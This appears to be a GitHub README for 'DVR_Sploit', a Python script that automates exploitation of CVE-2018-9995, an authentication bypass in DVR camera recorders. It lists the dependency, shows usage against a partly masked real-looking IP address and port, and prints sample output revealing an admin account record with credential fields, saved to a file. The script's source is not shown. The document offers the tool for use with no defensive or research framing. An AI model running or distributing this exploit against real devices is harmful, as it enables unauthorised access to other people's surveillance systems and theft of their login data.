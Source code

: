 # DVR_Sploit
Simple python3 script to automate CVE-2018-9995

Requirements: requests (pip install requests)

Usage:
root@fuckmachine:~# python3 dvrsploit.py            
Enter DVR host: 81.215.xxx.xxx
Enter DVR port: 88
Output:
Device list:
{"result":0,"list":[{"uid":"admin","pwd":"","role":2,"enmac":0,"mac":"00:00:00:00:00:00","playback":4294967295,"view":4294967295,"rview":4294967295,"ptz":4294967295,"backup":4294967295,"opt":4294967295}]}
Device list appended to dvr_output.txt
